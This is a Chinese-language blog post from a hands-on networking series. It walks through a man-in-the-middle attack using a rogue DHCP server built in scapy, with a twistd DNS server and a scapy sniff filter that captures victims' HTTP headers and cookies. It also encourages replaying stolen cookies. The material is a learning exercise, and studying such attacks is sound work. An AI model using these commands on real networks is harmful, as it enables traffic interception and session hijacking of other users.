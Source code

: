 ```yaml
---
layout: post
title: "Playing and Learning DHCP in Action"
excerpt: "动手学习计算机网络系列(二)"
category: network
tags: [network]
disqus: true
---
```



## 实验准备

- scapy：用来伪造dhcp/dns服务器，抓包(调用tcpdump)
- tcpdump/wireshark：来观察网络流量。
- twisted来建立dns服务器
- 某个测试机器和某路由无线网络

## 一点DHCP协议基础

DHCP是，是干啥的呢？简单来说是为了自动化为网络中的主机配置各种配置，包括ip地址，网关，域名服务器等等。

有篇不错的[中文教程](http://jeffyyko.blog.51cto.com/28563/163168)带你回顾整个dhcp服务过程，然而，事情不总是这样的。比如linux和安卓一般默认就没有arping检查重复ip的过程。

## Rogue DHCP Server

流氓服务器，指非法在网络中提供dhcp服务的机器。由于dhcp服务没有认证过程，任何dhcp服务器都能为网络上的机器提供服务。实际上就是几个服务器竞争看谁反应快客户端就使用谁，这为中间人攻击提供了可能。

## 一次中间人攻击

我们试着搭建一个流氓dhcp服务器来指向错误的网关和dns(即我们自己)。

本机的ip地址是`192.168.1.101`，这是无线路由中dhcp服务器分配的。为了让实验一定成功，最好干脆把无线路由的dhcp功能关掉，自己手动配置地址`192.168.1.101`，然后搭建个dhcp服务器。

首先，确认设置ip转发功能：

    gentoo ~ # echo 1 > /proc/sys/net/ipv4/ip_forward

首先，用scapy搭建一个dhcp服务器，把网关指向自己。scapy中`DHCP_am`的设计就是把`nameserver`也指向网关，可参考源代码。

    >>> dhcp_server= DHCP_am()
    >>> dhcp_server.gw='192.168.1.101'
    >>> dhcp_server()

监听观察，发现默认网关的dhcp服务器竟然给了一个`dhcpnak`：

     ~ ⮀ sudo tcpdump -i wlan0 port 67 or port 68 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on wlan0, link-type EN10MB (Ethernet), capture size 65535 bytes
    23:18:55.634526 IP 0.0.0.0.bootpc > 255.255.255.255.bootps: BOOTP/DHCP, Request from 22:22:22:22:22:22 (oui Unknown), length 302
    23:18:55.681009 IP 192.168.1.101.bootps > 192.168.1.128.bootpc: BOOTP/DHCP, Reply, length 296
    23:18:55.688288 IP 0.0.0.0.bootpc > 255.255.255.255.bootps: BOOTP/DHCP, Request from 22:22:22:22:22:22 (oui Unknown), length 314
    23:18:55.781062 IP 192.168.1.101.bootps > 192.168.1.128.bootpc: BOOTP/DHCP, Reply, length 296
    23:18:56.124282 IP 192.168.1.1.bootps > 255.255.255.255.bootpc: BOOTP/DHCP, Reply, length 548

用twisted建立一个DNS服务器[^1]：

    sudo twistd -n dns --recursive --cache

在scapy中开始中间人攻击(窃听)，比如窃听http头：

    pkts = sniff(filter="(tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)) and host 192.168.1.128 and (not host 192.168.1.1)",iface="wlan0", prn=lambda x: x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
    192.168.1.128 -> 123.125.70.102
    'GET /tongji/anchor?type=webapp_pv&t=1394205309005&page=carousel HTTP/1.1\r\nHost: wk.baidu.com\r\nAccept-Encod此处略去具体信息'

搞到cookie后尽情发挥吧，可以用temper data这种东西在火狐里试下。当然，cookie可以在各种地方比如requests啊selenium里啊使用。

完工。其实后来实验时无线路由dhcp服务器被选中了，然后我的rogue dhcp server就一直处于无用状态。

FIXME：可以尝试一个dhcprelease来试着解除租约，可能涉及xid或transaction ID这些东西的监听和伪造。也许会在查阅更多资料后尝试，也许。

Update：以下这个链接做了这些，不过，它怎么获得xid(transaction id)的不是很明白，要赶在dhcp client的dhcprequest发出之后dhcp server返回dhcpack之前向dhcp client注入dhcpnak，好像得在开始建立连接的时候就开始监听，获取transaction id，直接就伪装成dhcp服务器想客户端发送dhcpnak。

- [http://www.backtrack-linux.org/forums/showthread.php?t=25132](http://www.backtrack-linux.org/forums/showthread.php?t=25132)


[^1]: 最开始我用scapy来建立dns服务器： `dns_spoof()`.关于用scapy做DNS转发服务器，参见PacketGeek上scapy的教程[Scapy and DNS](http://thepacketgeek.com/scapy-p-09-scapy-and-dns/)
